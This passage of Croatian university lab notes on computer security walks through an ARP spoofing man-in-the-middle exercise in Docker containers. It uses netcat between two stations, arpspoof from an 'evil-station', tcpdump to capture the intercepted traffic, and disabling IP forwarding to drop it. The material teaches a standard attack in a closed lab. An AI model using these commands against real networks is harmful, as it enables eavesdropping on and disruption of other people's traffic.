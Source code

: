 - IP adresa: 172.18.0.4
- Ethernet:  02:42:ac:12:00:04

### 5. Korak

a) **Na kontejneru `station-2` otvaramo server TCP socket na portu 8000**

```bash
netcat -lp 8000
```

b) **Na kontejneru `station-1`  otvaramo client TCP socket na hostnameu  `station-2` 8000**

```bash
netcat station-2 8000
```

### 6. Korak (Napad)

a ) **U kontejneru `evil-station` pokrećemo arpspoof**

```bash
arpspoof -t station-1 station-2
```

b) **Otvaranje dodatnog Ubunutu terminala (kao korak 4a i 4b) za `evil-station`**

![Untitled](Sigurnost%20Rac%CC%8Cunala%20i%20Podataka%205e50066b481d462ba4fa1924b0b48f6f/Untitled%204.png)

c) **Pokrećemo tcpdump u kontejneru `evil-station` i pratimo promet (novi terminal)**

```bash
tcpdump
```

![Untitled](Sigurnost%20Rac%CC%8Cunala%20i%20Podataka%205e50066b481d462ba4fa1924b0b48f6f/Untitled%205.png)

c) **Za filtiranje podatka, odnosno zanemarivanje paketa stvorenog od `evil-station`**

```bash
tcpdump tcp
```

![Untitled](Sigurnost%20Rac%CC%8Cunala%20i%20Podataka%205e50066b481d462ba4fa1924b0b48f6f/Untitled%206.png)

**Ili još za prikaz podataka u hex prikazu**

```bash
tcpdump tcp -X
```

![Untitled](Sigurnost%20Rac%CC%8Cunala%20i%20Podataka%205e50066b481d462ba4fa1924b0b48f6f/Untitled%207.png)

**Ili za gašenje prosljeđivanja spoofanih paketa**

```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

![Untitled](Sigurnost%20Rac%CC%8Cunala%20i%20Podataka%205e50066b481d462ba4fa1924b0b48f6f/Untitled%208.png)
